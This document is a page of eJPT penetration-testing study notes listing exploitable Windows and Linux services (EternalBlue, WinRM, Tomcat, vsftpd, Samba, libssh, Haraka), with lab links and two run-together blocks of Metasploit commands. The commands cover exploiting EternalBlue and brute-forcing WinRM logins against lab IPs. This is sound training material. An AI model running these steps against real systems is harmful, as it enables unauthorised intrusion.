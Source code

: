 # Exploitation

## Windows Exploitation <a href="#hfs-http-file-server" id="hfs-http-file-server"></a>

### HFS (HTTP File Server) <a href="#hfs-http-file-server" id="hfs-http-file-server"></a>

A **HFS** (HTTP File Server) is a file and documents sharing web server.

* Rejetto HFS - free open source HTTP file server

> 🔬 [HFS - MSF Exploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/hfs-msf-exp)​

### SMB - MS17-010 EternalBlue <a href="#smb-ms17-010-eternalblue" id="smb-ms17-010-eternalblue"></a>

* ​[CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)​
* ​[EternalBlue VA](https://blog.syselement.com/ine/courses/ejpt/assessment-methodologies/4-va#eternalblue)​
  * **EternalBlue** takes advantage of a Windows SMBv1 protocol vulnerability
  * Patch was released in March 2017

> 🔬 Check the [Lab 2 - Eternal Blue here](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/windows-attacks/smb-psexec)​

* Some MSF useful commands from my Home Lab (`Kali VM + Win 2008_R2 Server`)

service postgresql start && msfconsole -qdb\_statussetg RHOSTS 192.168.31.131setg RHOST 192.168.31.131workspace -a EternalBlue​db\_nmap -sS -sV -O 192.168.31.131search type:auxiliary EternalBlueuse auxiliary/scanner/smb/smb\_ms17\_010optionsrun​search type:exploit EternalBlueuse exploit/windows/smb/ms17\_010\_eternalblueoptionsrun

### WinRM <a href="#winrm" id="winrm"></a>

* Identify WinRM users with MSF and exploit WinRM by obtaining access credentials.
* Default WinRM HTTP port is **`5985`** and HTTPS **`5986`**

> 🔬 [WinRM Attack lab](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/windows-attacks/winrm)​

service postgresql start && msfconsole -qdb\_statussetg RHOSTS 10.2.27.173setg RHOST 10.2.27.173workspace -a WinRM​db\_nmap -sS -sV -O -p- 10.2.27.173# Port 5985 is set up for WinRMsearch type:auxiliary winrmuse auxiliary/scanner/winrm/winrm\_auth\_methodsoptionsrun​# Brute force WinRM loginsearch winrm\_loginuse auxiliary/scanner/winrm/winrm\_loginset USER\_FILE /usr/share/metasploit-framework/data/wordlists/common\_users.txtset PASS\_FILE /usr/share/metasploit-framework/data/wordlists/unix\_passwords.txt​search winrm\_cmduse auxiliary/scanner/winrm/winrm\_cmdset USERNAME administratorset PASSWORD tinkerbellset CMD whoamirun![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-0bc3dc4945d45488dc092b94ee70750d1eb5b2e2%2Fimage-20230416114857268.png?alt=media)search winrm\_scriptuse exploit/windows/winrm/winrm\_script\_execset USERNAME administratorset PASSWORD tinkerbellset FORCE\_VBS trueexploit

### Apache Tomcat <a href="#apache-tomcat" id="apache-tomcat"></a>

​[**`Apache Tomcat`**](https://tomcat.apache.org/) is a free open source Java servlet web server, _build to host dynamic websites and web apps developed in **Java**_.

* Tomcat default TCP port is **`8080`**
* Apache web server host HTML/PHP web apps, instead
* Apache Tomcat < **`v.8.5.23`** is vulnerable to a JSP Upload Bypass / RCE

> 🔬 [Tomcat - MSF Exploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/tomcat-msf-exp)​

## Linux Exploitation <a href="#ftp-1" id="ftp-1"></a>

### FTP <a href="#ftp-1" id="ftp-1"></a>

​[**`vsftpd`**](https://security.appspot.com/vsftpd.html) is an Unix FTP server.

* vsftpd **`v.2.3.4`** is vulnerable to a command execution vulnerability

> 🔬 [FTP - MSF Exploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/ftpd-msf-exp)​

### SAMBA <a href="#samba" id="samba"></a>

**`Samba`** is the Linux implementation of SMB.

* Samaba **`v.3.5.0`** is vulnerable to a RCE vulnerability

> 🔬 [Samba - MSF Exploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/samba-msf-exp)​

### SSH <a href="#ssh-1" id="ssh-1"></a>

**`libssh`** is a C library that implements the SSHv2 protocol

* **`SSH`** default TCP port is **`22`**
* libssh **`v.0.6.0 - 0.8.0`** is vulnerable to an authentication bypass vulnerability

> 🔬 [SSH - MSF Exploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/ssh-msf-exp)​

### SMTP <a href="#smtp-1" id="smtp-1"></a>

​[**`Haraka`**](https://haraka.github.io/) is an open source high performance SMTP server developed in `Node.js`

* **`SMTP`** default TCP port is **`25`**
  * other TCP ports are **`465`** and **`587`**
* Haraka prior to **`v.2.8.9`** is vulnerable to command injection

> 🔬 [SMTP - MSF Exploit](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/3-metasploit/smtp-msf-exp)​
